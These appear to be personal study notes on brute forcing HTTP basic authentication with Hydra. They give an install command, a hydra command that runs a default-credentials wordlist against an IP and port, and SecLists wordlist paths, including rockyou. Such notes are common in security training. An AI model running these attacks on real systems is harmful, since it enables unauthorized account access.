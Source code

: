 
<a id="org42bed80"></a>

# Besic HTTP Auth Brute Forcing


<a id="orge84d573"></a>

## Defoult Password

Default passwords are frequently employed for user accounts during testing, chosen for their simplicity and ease of recall. They are commonly utilized for default accounts associated with services and applications, streamlining initial access. Unfortunately, these user accounts are prone to being neglected or overlooked. The inherent inclination towards convenience, coupled with human laziness, can result in a lack of attentiveness and subsequent errors, potentially jeopardizing the security of a company's infrastructure.


<a id="org3728758"></a>

### Hydra

Hydra is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others.

<span class="underline">Installing</span>

    apt install hydra -y

<span class="underline">Attacck defoult pwd</span>

    hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

-   `-C ftp-betterdefaultpasslist.txt` Combined Credentials Wordlist (`test:test`)
-   `SERVER_IP` Target IP
-   `-s PORT` Target Port
-   `http-get` Request Method
-   `/` Target Path


<a id="orgc7fbdd5"></a>

## Username Brute Force

<span class="underline">Wordlist</span>

    locate rockyou.txt
    
    /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

or

    locate names.txt
    
    /opt/useful/SecLists/Usernames/Names/names.txt

